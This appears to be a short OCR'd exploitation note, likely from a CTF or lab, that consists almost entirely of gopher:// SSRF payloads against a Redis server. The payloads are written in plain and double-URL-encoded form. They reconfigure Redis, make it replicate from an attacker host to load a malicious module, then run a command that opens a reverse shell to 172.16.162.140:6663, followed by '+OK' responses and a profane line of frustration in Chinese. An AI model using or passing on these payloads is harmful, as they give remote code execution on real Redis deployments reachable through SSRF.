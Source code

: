 

```
gopher://0.0.0.0:6379/_auth root
config set dir /tmp/
quit
gopher://0.0.0.0:6379/_auth%2520root%250aconfig%2520set%2520dir%2520%252ftmp%252f%250aquit

gopher://0.0.0.0:6379/_auth root
config set dbfilename exp.so
slaveof 172.16.162.140 21000
quit
gopher://0.0.0.0:6379/_auth%2520root%250Aconfig%2520set%2520dbfilename%2520exp.so%250Aslaveof%2520172.16.162.140%252021000%250Aquit

gopher://0.0.0.0:6379/_auth%2520root%250Aconfig%2520module%2520dbload%2520./exp.so%250d%250Aquit
gopher://0.0.0.0:6379/_auth%2520root%250Amodule%2520load%2520./exp.so%250Aquit

gopher://0.0.0.0:6379/_auth root
module load /tmp/exp.so
system.rev 172.16.162.140 6663
quit
gopher://0.0.0.0:6379/_auth%2520root%250Amodule%2520load%2520%252Ftmp%252Fexp.so%250Asystem.rev%2520172.16.162.140%25206663%250Aquit
```



```assembly
string(15) "+OK +OK +OK "
```



```assembly
string(20) "+OK +OK +OK +OK "
```

搞了一下午没搞出来caonima